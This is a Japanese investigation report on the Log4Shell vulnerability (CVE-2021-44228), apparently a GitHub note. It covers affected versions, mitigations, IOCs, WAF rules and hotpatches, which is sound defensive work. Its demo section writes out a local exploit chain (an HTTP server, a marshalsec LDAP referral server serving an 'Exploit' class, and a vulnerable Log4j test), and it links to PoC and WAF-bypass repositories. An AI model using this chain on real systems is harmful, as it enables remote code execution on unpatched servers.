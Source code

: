 # 2021-12-14 log4shell(CVE-2021-44228) 調査レポート

## log4j2 のゼロデイ脆弱性が発見されました。

[https://www.itmedia.co.jp/news/articles/2112/10/news157.html](https://www.itmedia.co.jp/news/articles/2112/10/news157.html)

[https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/)

- log4j2 は Java のロギングライブラリで、Javaアプリで広く利用されている
    
    ```java
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
    
    public class Log4j2Test {
        private static final Logger logger = LogManager.getLogger(Log4j2Test.class);
        public static void main(String[] args) {
            logger.error("error message");
        }
    }
    ```
    
- 2021/12/9、この log4j2 で RCE の脆弱性がPOCとともにtwitter投稿
    - https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
    - 元ツイは削除されていた
- 容易に攻撃可能な脆弱性ということで、twitterではお祭り騒ぎ、各社緊急対応に追われている
- log4j2 で RCE できることから、log4shell と呼ばれている

[https://twitter.com/knqyf263/status/1469264324334350339](https://twitter.com/knqyf263/status/1469264324334350339)

[https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)

## **CVE-2021-44228**

[https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

> Apache Log4j2 <=2.14.1 設定、ログメッセージ、パラメータに使用される JNDI 機能は、攻撃者が制御する LDAP や他の JNDI 関連のエンドポイントから保護されません。ログメッセージやログメッセージのパラメーターを制御できる攻撃者は、メッセージのルックアップ置換が有効な場合、LDAP サーバーからロードされた任意のコードを実行できます。log4j 2.15.0 からは、この動作はデフォルトで無効になっています。以前のリリース（>2.10）では、システムプロパティ「log4j2.formatMsgNoLookups」を「true」に設定するか、クラスパスから JndiLookup クラスを削除することで、この動作を緩和することができます（例：zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class）。Java 8u121（[https://www.oracle.com/java/technologies/javase/8u121-relnotes.html](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html) 参照）では、「com.sun.jndi.rmi.object.trustURLCodebase」および「com.sun.jndi.cosnaming.object.trustURLCodebase」をデフォルトで「false」に設定することで、リモートコードの実行から保護しています。
> 
- Java Naming and Directory Interface (JNDI) は、Javaアプリがディレクトリサービスが提供するデータ・リソースを参照するための汎用API
    - [https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)
- 本脆弱性は log4j2 のJNDI Lookup を悪用    
- LDAP だけでなく、DNS や RMI でも同様の攻撃が可能

## 影響範囲

- 2.0-beta9 <= log4j <= 2.14.1
    - 1.x については、12/14時点では影響を受ける可能性はあるが低リスクとの結論
    
    [Restrict LDAP access via JNDI by rgoers · Pull Request #608 · apache/logging-log4j2](https://github.com/apache/logging-log4j2/pull/608#issuecomment-990494126)
    
- JDK バージョン `6u211`, `7u201`, `8u191`, `11.0.1` 以上は影響なし
    - com.sun.jndi.ldap.object.trustURLCodebase=false となっているため
    - NVDに記載の方法を試してみたが、JDK 8u121 で回避できなかった 🤔
    - `8u191` は 2018/10/26 にリリースされたもの

## 回避策

[https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)

### log4j 2.10.0 以上

- プロパティ設定 formatMsgNoLookups=true
- 環境変数を設定 LOG4J_FORMAT_MSG_NO_LOOKUPS=true

[https://twitter.com/mattn_jp/status/1470027729466978306](https://twitter.com/mattn_jp/status/1470027729466978306)

### log4j 2.10.0 未満

- org.apache.logging.log4j.core.lookup.JndiLookup クラスを安全なものに置き換える

### Java アップデート

`6u211`, `7u201`, `8u191`, `11.0.1` 以上

## 恒久対応

- log4j を 2.15.0 にアップデート
    - ただし一部課題もあり、2.16.0 で完全に対策できる模様
    
    [https://twitter.com/ryotkak/status/1470177786891767810](https://twitter.com/ryotkak/status/1470177786891767810)
    

## デモ

![log4shell.png](images/log4shell/log4shell.png)

```bash
python -m SimpleHTTPServer 8800

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8800/#Exploit"

/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/java -cp "target/classes:/Users/kyohmizu/.m2/repository/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar:/Users/kyohmizu/.m2/repository/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar" Log4j2Test
```

## スキャン状況

[GreyNoise](https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22)

IOC

- Domain: [https://gist.github.com/superducktoes/9b742f7b44c71b4a0d19790228ce85d8](https://gist.github.com/superducktoes/9b742f7b44c71b4a0d19790228ce85d8)
- IP: [https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217](https://gist.github.com/gnremy/c546c7911d5f876f263309d7161a7217)

## WAF について

- 続々とリリースされている
    - [https://dev.classmethod.jp/articles/aws-waf-new-rule-log4jrce/](https://dev.classmethod.jp/articles/aws-waf-new-rule-log4jrce/)
    - [https://cloud.google.com/blog/products/identity-security/cloud-armor-waf-rule-to-help-address-apache-log4j-vulnerability](https://cloud.google.com/blog/products/identity-security/cloud-armor-waf-rule-to-help-address-apache-log4j-vulnerability)
- バイパスの方法もいろいろある
    
    [https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words)
    

## HotPatch

[https://github.com/Cybereason/Logout4Shell](https://github.com/Cybereason/Logout4Shell)

[https://github.com/corretto/hotpatch-for-apache-log4j2](https://github.com/corretto/hotpatch-for-apache-log4j2)

## 参考

[https://www.ipa.go.jp/security/ciadr/vul/alert20211213.html](https://www.ipa.go.jp/security/ciadr/vul/alert20211213.html)

[https://www.jpcert.or.jp/at/2021/at210050.html](https://www.jpcert.or.jp/at/2021/at210050.html)

[https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce](https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce)

[https://www.security-next.com/132414](https://www.security-next.com/132414)

[CVE-2021-44228 - vuldb](https://vuldb.com/?id.187925)
